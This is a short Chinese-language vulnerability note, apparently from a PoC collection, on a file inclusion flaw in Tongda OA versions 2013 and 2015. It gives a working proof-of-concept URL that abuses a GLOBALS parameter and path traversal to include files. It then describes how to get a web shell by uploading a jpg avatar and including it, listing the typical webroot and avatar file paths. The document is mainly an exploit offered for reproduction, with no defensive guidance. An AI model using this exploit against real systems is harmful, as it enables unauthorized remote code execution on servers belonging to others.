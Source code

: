 ## 通达oa 文件包含漏洞

### 漏洞影响

2013、2015版本

### 复现过程

poc

`http://url/inc/menu_left.php?GLOBALS[MENU_LEFT][A][module][1]=a&include_file=../inc/js/menu_left.js`

通常情况下，在控制⾯板中上传⼀个jpg头像，然后利用该⻚面的⽂件包含getshell。通达OA网站的根⽬录 一般在D:\MYOA\webroot中,头像附件一般在D:\MYOA\webroot\attachment\avatar\XXX.jpg

![](images/通达oa 文件包含漏洞.png)